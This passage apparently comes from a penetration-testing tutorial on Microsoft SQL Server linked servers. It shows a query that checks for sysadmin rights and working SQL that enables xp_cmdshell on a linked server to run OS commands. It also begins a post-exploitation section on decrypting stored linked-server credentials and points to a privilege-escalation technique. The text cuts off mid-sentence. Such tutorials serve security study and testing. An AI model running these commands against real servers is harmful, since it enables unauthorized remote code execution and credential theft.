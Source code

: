To check if your current login has `sysadmin` on the **remote server (e.g., SQL02)**:

```sql
SELECT * FROM OPENQUERY(SQL02, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');
```

![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/f3ddc15c-a99f-481b-a911-0b210819cae0/image.png?table=block&id=1d385370-06ca-8027-a5c4-ea26a652fda4&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744524000000&signature=I_jxLMfzxy_shMJRkbebSRB_aUx6Fh10RE86n6aqMmo&downloadName=image.png)

> Use double single-quotes to escape quotes in nested queries.
{: .prompt-info }


## 🛠️ Remote Code Execution (RCE) via Linked Servers
    
If you're confirmed `sysadmin` on the linked server (SQL02), you can enable `xp_cmdshell` and run OS commands remotely:

```sql
EXECUTE (
    'EXEC sp_configure "show advanced options", 1; RECONFIGURE;
    EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE;
    EXEC xp_cmdshell "whoami";'
) AT SQL02;
```

![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/4ba22b9e-3ce7-4866-bd62-0229210b43e0/image.png?table=block&id=1d385370-06ca-80db-abf4-f126e9f33a8d&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744524000000&signature=cLEJzke_CdDTgGfeJG-VNrVFPQEBjQBxRt6i86c2MDc&downloadName=image.png)

If successful, the output will show the service account running SQL Server (e.g., `NT Service\MSSQLSERVER`).

This service account could be abused later as it have SeImpersonatePrivilege privilege.

![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/a9206c59-8a65-4553-814c-59b3face7818/image.png?table=block&id=1d385370-06ca-80ee-aec8-e9dd604653f3&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744524000000&signature=gtELdXpGwfzRG1QI3BByVh_iBKGB3xav0RVKpXlzHQo&downloadName=image.png)

## 🧰 Post-Exploitation: Decrypting Linked Server Credentials
### 🔐 Background

After compromising a machine hosting an MSSQL Server instance with **linked servers**, it's possible to extract and decrypt the **SQL Server Authentication credentials** used for those links.

To achieve this, you must have:

- A login with the **`sysadmin` role** on the SQL Server instance.
- **Local administrator privileges** on the underlying Windows machine hosting the SQL Server.

> If you have **local administrator privileges** but not `sysadmin` access, you can escalate to `sysadmin` using this [authorization bypass technique](https://www.netspi.com/blog/entryid/133/sql-server-local-authorization-bypass/).
{: .prompt-info }


#### 🔒 Where Are Linked Server Credentials Stored?

When a linked server uses **SQL Server Authentication**, the associated **username and password** are:
